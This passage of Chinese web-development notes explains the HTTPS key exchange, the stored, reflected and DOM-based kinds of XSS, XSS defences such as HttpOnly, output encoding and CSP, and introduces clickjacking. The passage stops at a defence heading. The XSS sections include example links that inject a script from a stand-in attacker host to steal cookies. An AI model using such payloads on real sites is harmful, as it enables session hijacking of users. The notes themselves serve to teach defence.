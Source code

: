客户端拿到公钥(放在证书里)，用公钥锁定一个随机值并将随机值传给服务器，服务器用私钥解密(这是使用非对称加密的，更浪费时间)，以后就用这个随机值来传递数据(使用随机值作为对称加密的秘钥加密数据，对称加密要比非对称加密快得多)。

如何确认是真正的服务器的公钥？权威机构颁发证书，操作系统内置了权威机构的公钥(或者后面自行安装的 根证书)，权威机构使用它的秘钥加密服务器的公钥和其他一些信息生成 数字证书，并使用 数字签名的方式对这个下发的证书做校验。客户端确认确实是服务器的公钥之后再使用该公钥非对称加密一个用来后续加密传输数据所用的对称加密的秘钥。

**缺点**：HTTPS 使页面加载时间延长，增加数据开销，经济开销，连接缓存问题。

> 关于如何从 HTTP 升级到 HTTPS 可以查看 [阮一峰——HTTPS 升级指南](http://www.ruanyifeng.com/blog/2016/08/migrate-from-http-to-https.html)。


# 安全
## `XSS`(Cross-site Scripting，跨站脚本攻击)
### 存储型`XSS`攻击
注入的攻击脚本永久存储在数据库，持久化。比如系统没有对用户的输入做过滤，可以插入一段自动发送网站`cookie`的脚本，当其他人打开包含这段信息的页面时就会自动获取隐私信息了，攻击的是多人。

### 反射型`XSS`攻击
非持久化的，需要欺骗用户自己去点击链接才能触发`XSS`代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。比如我们知道服务器会将搜索的关键词直接显示，我们就构造一个`XSS`的链接`(<a href="http://xsstest.qq.com/search.php?q=%3Cscript src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E&commend=all&ssid=s5-e&search_type=item&atype=&filterFineness=&rr=1&pcat=food2011&style=grid&cat=">点击就送998</a>)`，这样就能将该用户的在该网站的`cookie`获取到了。这是针对单人的。

### `DOM`型`XSS`攻击
和反射性非常类似，不过是不需要经过服务器的，比如网站有个脚本是直接获取用户输入的`url`中的某个参数如`content`，那么就可以伪造一个`XSS`的链接`(<a href="http://example.com?content="%3Cscript src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E">)`从而完成 `XSS`攻击，这种攻击也是单人的，只不过服务器设置的 XSS 防御就不起作用了，所以需要 前端同时防范。

## 防御
`XSS`防御的总体思路是：对输入(和 URL 参数)进行过滤，对输出进行编码。这里推荐`OWASP`。

- `HttpOnly`: `Set-Cookie: =[; =][; expires=][; domain=][; path=][; secure][; HttpOnly]`，如果`Cookie`具有`HttpOnly`特性且不能通过客户端脚本访问，则为`true`；否则为`false`。默认值为`false`。

- `过滤`: 对诸如`<script>`、`<img>`、`<a>` 等标签进行过滤。

- `编码`: 像一些常见的符号，如`<、>`在输入的时候要对其进行转换编码。

- `限制`: `XSS`攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

### `CSP`(Content Security Policy 内容安全策略)
`CSP`的实质就是**白名单制度**，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供配置。
> 查看[`XSS`终结者-CSP 理论与实践](https://github.com/joeyguo/blog/issues/5)

## `Click Jacking`(点击劫持)
点击劫持就是利用透明的`iframe`或者被覆盖的`iframe`，通过诱骗用户在该网页上点击某些按钮，触发`iframe`页面上的点击操作。

### 防御
